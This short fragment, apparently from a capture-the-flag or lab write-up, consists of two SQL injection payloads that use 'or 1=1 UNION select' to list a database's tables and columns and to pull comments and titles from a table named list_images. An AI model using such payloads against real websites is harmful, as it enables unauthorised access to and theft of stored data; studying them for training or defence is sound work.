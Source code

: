 
1337 or 1=1 UNION select table_name, column_name FROM information_schema.columns

1337 or 1=1 union select comment, title FROM list_images
